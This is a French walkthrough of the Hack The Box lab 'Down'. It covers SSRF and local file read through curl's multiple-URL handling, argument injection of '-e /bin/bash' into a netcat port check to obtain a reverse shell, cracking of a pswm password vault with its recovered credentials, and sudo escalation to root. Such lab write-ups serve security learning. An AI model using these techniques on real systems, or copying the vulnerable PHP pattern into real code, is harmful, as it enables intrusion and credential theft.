`Down` possède un site web conçu pour vérifier si un site web est en ligne. Cela présente une `SSRF` évidente, mais pour contourner les filtres et l'exploiter, je vais abuser de la fonctionnalité de `curl` qui accepte plusieurs URLs et passer une seconde URL avec le wrapper LFI `file` pour lire des fichiers depuis l'hôte. J'obtiens l'accès au code source de la page, et je vois qu'il existe un `mode expert` qui établie une connexion TCP brute avec `netcat`. J'utilise l'injection de paramètres à cet endroit pour obtenir un shell. De là, je fouille dans une instance `pswm` pour obtenir le mot de passe de l'utilisateur suivant, et celui-ci dispose des privilèges sudo pour devenir root.

## Enumération
### Nmap

Il y a deux ports ouverts :
- 22 pour le SSH
- 80 pour le HTTP

```
╭─root at exegol-htb in /workspace/Down
╰─○ nmap 10.129.204.56 -sV -sC -vv -oN tcp.txt
Starting Nmap 7.93 ( https://nmap.org ) at 2025-06-23 22:27 CEST
Host is up, received reset ttl 63 (0.051s latency).
Scanned at 2025-06-23 22:27:39 CEST for 10s
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 f6cc217ccadaed34fd04efe6f94cddf8 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBL9eTcP2DDxJHJ2uCdOmMRIPaoOhvMFXL33f1pZTIe0VTdeHRNYlpm2a2PumsO5t88M7QF3L3d6n1eRHTTAskGw=
|   256 fa061ff4bf8ce3b0c840210d5706dd11 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJwLt0rmihlvq9pk6BmFhjTycNR54yApKIrnwI8xzYx/
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.52 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Is it down or just me?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


### HTTP (80)

La page principale nous présente un site permettant de tester la disponibilité d'un site en fournissant une url. Pour cela, je lance un serveur python en local avec la commande `python3 -m http.server` et je mets l'url. J'ai bien une réponse du serveur.



Je mets à nouveau l'url mais j'intercepte avec `netcat`. Je vois dans le `User-Agent` que la commande utilisé pour vérifier la disponibilité du site en background est la commande `curl`. Donc on peut suggérer que le site effectue la commande suivante : `curl <URL>`
```
╭─root at exegol-htb in /workspace/Down
╰─○ nc -lnvp 8000
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::8000
Ncat: Listening on 0.0.0.0:8000
Ncat: Connection from 10.129.204.56.
Ncat: Connection from 10.129.204.56:60778.
GET / HTTP/1.1
Host: 10.10.14.158:8000
User-Agent: curl/7.81.0
Accept: */*
```


Pour plus de détails voyons voir ce qui se passe dans `BurpSuite`. Donc nous envoyons juste une requête POST avec le paramètre `url`.


## Shell en tant www-data
### Curl

Lorsque je fournis juste l'adresse IP, j'ai une erreur me disant que seuls les protocoles HTTP et HTTPS sont autorisés.



Tant que le paramètre `url` commence par `http://` ou `https://`, la commande s'exécute sans problème.



Je peux accéder au contenu de la machine. J'ai donc essayé de l'injection de commande avec différents payload, mais ça ne mène à rien.



Le truc avec `curl` est qu'il peut prendre plusieurs url en paramètre. Donc voyons si le site ne vérifie que la première URL.



### Arbitrary File Read

Testons donc cela, avec le wrapper `file:///etc/passwd`. Nous arrivons bien à accéder aux fichiers système.



J'accède bien au fichier `index.php` mais je remarque qu'il contient beaucoup plus d'infos que ce qu'il y a lorsque j'inspecte la page web.



Le code que je récupère est url encodé. Donc je le déchiffre dans l'onglet `decoder` de `BurpSuite` pour avoir ceci :
```php
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Is it down or just me?</title>
    <link rel="stylesheet" href="style.css">
</head>
<body>

    <header>
        
        <h2>Is it down or just me?</h2>
    </header>

    <div class="container">

<?php
if ( isset($_GET['expertmode']) && $_GET['expertmode'] === 'tcp' ) {
  echo '<h1>Is the port refused, or is it just you?</h1>
        <form id="urlForm" action="index.php?expertmode=tcp" method="POST">
            <input type="text" id="url" name="ip" placeholder="Please enter an IP." required><br>
            <input type="number" id="port" name="port" placeholder="Please enter a port number." required><br>
            <button type="submit">Is it refused?</button>
        </form>';
} else {
  echo '<h1>Is that website down, or is it just you?</h1>
        <form id="urlForm" action="index.php" method="POST">
            <input type="url" id="url" name="url" placeholder="Please enter a URL." required><br>
            <button type="submit">Is it down?</button>
        </form>';
}

if ( isset($_GET['expertmode']) && $_GET['expertmode'] === 'tcp' && isset($_POST['ip']) && isset($_POST['port']) ) {
  $ip = trim($_POST['ip']);
  $valid_ip = filter_var($ip, FILTER_VALIDATE_IP);
  $port = trim($_POST['port']);
  $port_int = intval($port);
  $valid_port = filter_var($port_int, FILTER_VALIDATE_INT);
  if ( $valid_ip && $valid_port ) {
    $rc = 255; $output = '';
    $ec = escapeshellcmd("/usr/bin/nc -vz $ip $port");
    exec($ec . " 2>&1",$output,$rc);
    echo '<div class="output" id="outputSection">';
    if ( $rc === 0 ) {
      echo "<font size=+1>It is up. It's just you! =</font><br><br>";
      echo '<p id="outputDetails"><pre>'.htmlspecialchars(implode("\n",$output)).'</pre></p>';
    } else {
      echo "<font size=+1>It is down for everyone! =</font><br><br>";
      echo '<p id="outputDetails"><pre>'.htmlspecialchars(implode("\n",$output)).'</pre></p>';
    }
  } else {
    echo '<div class="output" id="outputSection">';
    echo '<font color=red size=+1>Please specify a correct IP and a port between 1 and 65535.</font>';
  }
} elseif (isset($_POST['url'])) {
  $url = trim($_POST['url']);
  if ( preg_match('|^https?://|',$url) ) {
    $rc = 255; $output = '';
    $ec = escapeshellcmd("/usr/bin/curl -s $url");
    exec($ec . " 2>&1",$output,$rc);
    echo '<div class="output" id="outputSection">';
    if ( $rc === 0 ) {
      echo "<font size=+1>It is up. It's just you! =</font><br><br>";
      echo '<p id="outputDetails"><pre>'.htmlspecialchars(implode("\n",$output)).'</pre></p>';
    } else {
      echo "<font size=+1>It is down for everyone! =</font><br><br>";
    }
  } else {
    echo '<div class="output" id="outputSection">';
    echo '<font color=red size=+1>Only protocols http or https allowed.</font>';
  }
}
?>

</div>
</div>
<footer>© 2024 isitdownorjustme LLC</footer>
</body>
</html>
```

### Netcat

Je vois bien dans le code, la vérification effectuée par rapport aux protocoles.
```php
} elseif (isset($_POST['url'])) {
  $url = trim($_POST['url']);
  if ( preg_match('|^https?://|',$url) ) {
    $rc = 255; $output = '';
    $ec = escapeshellcmd("/usr/bin/curl -s $url");
    exec($ec . " 2>&1",$output,$rc);
    echo '<div class="output" id="outputSection">';
```


Tout au début du code PHP, je remarque qu'il existe une autre page, mais pour y accéder il faut passer le paramètre `expertmode=tcp` sur la page `index.php`.
```php
<?php
if ( isset($_GET['expertmode']) && $_GET['expertmode'] === 'tcp' ) {
  echo '<h1>Is the port refused, or is it just you?</h1>
        <form id="urlForm" action="index.php?expertmode=tcp" method="POST">
            <input type="text" id="url" name="ip" placeholder="Please enter an IP." required><br>
```




Dans le code, je vois que l'adresse IP et le port sont filtrés. Ce code prend en paramètre une adresse IP et un ports valides, puis exécute la commandes `netcat` pour vérifier la disponibilité sur site.
Ici la fonction `trim()` retourne la chaîne string, après avoir supprimé les caractères invisibles en début et fin de chaîne. Pour plus détails, la [documentation de PHP](https://www.php.net/manual/fr/function.trim.php)
La fonction `intval()` retourne la valeur numérique entière équivalente d'une variable . Pour plus d'informations, la [documentation de PHP](https://www.php.net/manual/fr/function.intval.php).
Sauf que ici, lorsqu'il fait appel à la fonction `escapeshellcmd()`, qui bien qu'elle échappe tous les caractères de la susceptible de permettre de l'injection de commande, n'empêche pas l'utilisation de paramètres.
De plus bien que le port soit, filtré, la variable utilisée dans la commande `netcat` n'est pas filtrée. Elle utilise la variable `port` plutot que `valid_port`.
```php
if ( isset($_GET['expertmode']) && $_GET['expertmode'] === 'tcp' && isset($_POST['ip']) && isset($_POST['port']) ) {
  $ip = trim($_POST['ip']);
  $valid_ip = filter_var($ip, FILTER_VALIDATE_IP);
  $port = trim($_POST['port']);
  $port_int = intval($port);
  $valid_port = filter_var($port_int, FILTER_VALIDATE_INT);
  if ( $valid_ip && $valid_port ) {
    $rc = 255; $output = '';
    $ec = escapeshellcmd("/usr/bin/nc -vz $ip $port");
    exec($ec . " 2>&1",$output,$rc);
```


Donc il me suffit d'ajouter l'argument `-e /bin/bash` de `netcat` permettant l'exécution de commande.



Et j'obtiens un shell en tant que `www-data`. Je stabilise mon shell.
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
CTRL + Z
stty -echo raw;fg
```



J'obtiens donc le premier flag.
```
www-data@down:/var/www/html$ ls -al
total 332
drwxr-xr-x 2 root root   4096 Apr  8 23:09 .
drwxr-xr-x 3 root root   4096 Sep  6  2024 ..
-rw-r--r-- 1 root root   3041 Sep  6  2024 index.php
-rw-r--r-- 1 root root 316218 Sep  6  2024 logo.png
-rw-r--r-- 1 root root   1794 Sep  6  2024 style.css
-r--r--rw- 1 root root     33 Apr  8 23:09 user_aeT1xa.txt
www-data@down:/var/www/html$ cat user_aeT1xa.txt
<REDACTED FLAG>
```


## Shell en tant que aleks
### PSWM

En énumérant les fichiers appartenant à `aleks`, je vois le fichier `./.local/share/pswm/pswm` qui est intriguant.
```
www-data@down:/home/aleks$ find -user aleks 2>/dev/null
.
./.lesshst
./.bashrc
./.sudo_as_admin_successful
./.local
./.local/share
./.local/share/pswm
./.local/share/pswm/pswm
./.cache
./.ssh
./.profile
./.bash_logout
```


Le fichier contient du contenu chiffré. Un petite recherche sur internet et je vois qu'il s'agit de [PSWM](https://github.com/Julynx/pswm), un gestionnaire de mots de passe en ligne de commande écrit en Python. Donc ce fichier contient sûrement les mots de passe.
```
www-data@down:/home/aleks$ cat ./.local/share/pswm/pswm
e9laWoKiJ0OdwK05b3hG7xMD+uIBBwl/v01lBRD+pntORa6Z/Xu/TdN3aG/ksAA0Sz55/kLggw==*xHnWpIqBWc25rrHFGPzyTg==*4Nt/05WUbySGyvDgSlpoUw==*u65Jfe0ml9BFaKEviDCHBQ==www-d
```


Donc en recherchant sur google, j'ai trouvé un outil sur [github](https://github.com/seriotonctf/pswm-decryptor) permettant de déchiffrer sur ma machine le contenu du fichier.
```
╭─root at exegol-htb in /workspace/Down/pswm-decryptor on main✘✘✘ using «.venv»
╰─± python3 pswm-decrypt.py -f pswm -w /usr/share/wordlists/rockyou.txt
[+] Master Password: flower
[+] Decrypted Data:
+------------+----------+----------------------+
| Alias      | Username | Password             |
+------------+----------+----------------------+
| pswm       | aleks    | flower               |
| aleks@down | aleks    | 1uY3w22uc-Wr{xNHR~+E |
+------------+----------+----------------------+
```


Je me connecte donc par SSH en tant qu'`aleks` avec le mot de passe trouvé.
```
╭─root at exegol-htb in /workspace/Down/pswm-decryptor on main✘✘✘
╰─± ssh aleks@10.129.204.56
The authenticity of host '10.129.204.56 (10.129.204.56)' can't be established.
ED25519 key fingerprint is SHA256:uq3+WwrPajXEUJC3CCuYMMlFTVM8CGYqMtGB9mI29wg.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.204.56' (ED25519) to the list of known hosts.
(aleks@10.129.204.56) Password:
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-138-generic x86_64)

 System information as of Mon Jun 23 10:43:01 PM UTC 2025

  System load:           0.0
  Usage of /:            52.5% of 6.92GB
  Memory usage:          7%
  Swap usage:            0%
  Processes:             227
  Users logged in:       0
  IPv4 address for eth0: 10.129.204.56
  IPv6 address for eth0: dead:beef::250:56ff:fe94:d21a
Last login: Tue Jun 10 15:47:07 2025 from 10.10.14.67
aleks@down:~$ ls -la
total 36
drwxr-xr-x 5 aleks aleks 4096 May 27 23:51 .
drwxr-xr-x 3 root  root  4096 Sep 13  2024 ..
lrwxrwxrwx 1 root  root     9 May  1 22:31 .bash_history -> /dev/null
-rw-r--r-- 1 aleks aleks  220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 aleks aleks 3771 Jan  6  2022 .bashrc
drwx------ 2 aleks aleks 4096 Sep  6  2024 .cache
-rw------- 1 aleks aleks   20 May 27 23:51 .lesshst
drwxrwxr-x 3 aleks aleks 4096 Sep  6  2024 .local
-rw-r--r-- 1 aleks aleks  807 Jan  6  2022 .profile
drwx------ 2 aleks aleks 4096 Sep  6  2024 .ssh
-rw-r--r-- 1 aleks aleks    0 Sep 15  2024 .sudo_as_admin_successful
aleks@down:~$
```


## Shell en tant que root

Je vois avec la commande `sudo -l` que `aleks` peut exécuter n'importe qu'elle commande sans mot de passe. Il fait aussi parti du groupe `sudo`.
```
aleks@down:~$ sudo -l
[sudo] password for aleks:
Matching Defaults entries for aleks on down:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User aleks may run the following commands on down:
    (ALL : ALL) ALL
aleks@down:~$ id
uid=1000(aleks) gid=1000(aleks) groups=1000(aleks),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd)
aleks@down:~$ sudo /bin/bash -p
root@down:/home/aleks# cd /root/
root@down:~# ls -la
total 48
drwx------  6 root root 4096 May 27 23:54 .
drwxr-xr-x 20 root root 4096 May 27 22:03 ..
lrwxrwxrwx  1 root root    9 May  1 22:31 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
drwxr-xr-x  3 root root 4096 Apr 21 10:53 .cache
-rw-------  1 root root   20 May 27 23:54 .lesshst
drwxr-xr-x  3 root root 4096 Sep 15  2024 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-r------w-  1 root root   33 Apr  8 23:08 root.txt
-rw-r--r--  1 root root   66 Apr  8 23:12 .selected_editor
drwx------  3 root root 4096 Sep  6  2024 snap
drwx------  2 root root 4096 Sep  6  2024 .ssh
-rw-r--r--  1 root root    0 May  1 22:26 .sudo_as_admin_successful
-rw-------  1 root root 2444 May 27 13:06 .viminfo
root@down:~# cat root.txt
<READACTED FLAG>
```
